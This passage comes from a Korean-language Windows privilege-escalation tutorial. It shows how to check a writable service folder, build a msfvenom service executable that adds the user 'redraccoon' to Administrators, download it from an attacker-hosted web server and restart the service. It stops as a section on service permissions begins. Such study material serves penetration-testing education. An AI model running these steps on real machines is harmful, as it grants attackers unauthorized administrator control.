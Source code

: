 
Step 2. 공격 성공 조건을 위한 쓰기 권한 확인
```powershell
icacls C:\opt\
```
- **예시 결과**
  BUILTIN\Users:(OI)(CI)(F)
- **(OI): Object Inherit** - 하위 파일에 권한 상속
- **(CI): Container Inherit** - 하위 폴더에 권한 상속
- **(F): Full Control** - 읽기/쓰기/실행/삭제 등 모든 권한
  → 모든 유저가 해당 경로에 파일을 쓸 수 있음 (공격 가능)


Step 3. 공격 페이로드 생성 및 배포
- **칼리 리눅스에서 페이로드 생성**

  ```
  msfvenom -p windows/x64/exec CMD="net localgroup Administrators redraccoon /add" -f exe-service -o Abyss.exe
  ```
  - `p windows/x64/exec` : 명령 실행 페이로드
  - `CMD="net localgroup Administrators redraccoon /add"` : redraccoon 계정을 관리자 그룹에 추가
  - `-f exe-service` : 서비스 실행 파일 포맷 **(일반 exe와 다름, 서비스로 동작)**
  - `-o Abyss.exe` : 출력 파일명


- **공격 파일 배포**
- 칼리에서 웹서버 실행:
  ```
  python3 -m http.server 80
  ```
- 피해자 시스템에서 다운로드:
  ```
  wget http://<공격IP>/Abyss.exe -OutFile C:\opt\Abyss.exe
  ```

Step 4. 서비스 재시작 및 권한 상승 확인
- **서비스 재시작**
  ```powershell
  Restart-Service Abyss Web Server
  ```

- **권한 상승 확인**
  ```powershell
  net localgroup Administrators
  ```

- `redraccoon` 계정이 관리자 그룹에 추가되어 있으면 성공

---

### 5. 잘못된 서비스 권한 (Misconfigured Service Permissions)


#### ✅ 개요
- **정의:**  
  특정 사용자에게 서비스 수정 권한이 부여되면, 서비스의 속성을 변경하거나 실행 파일을 교체하여 공격자의 코드를 실행 가능함
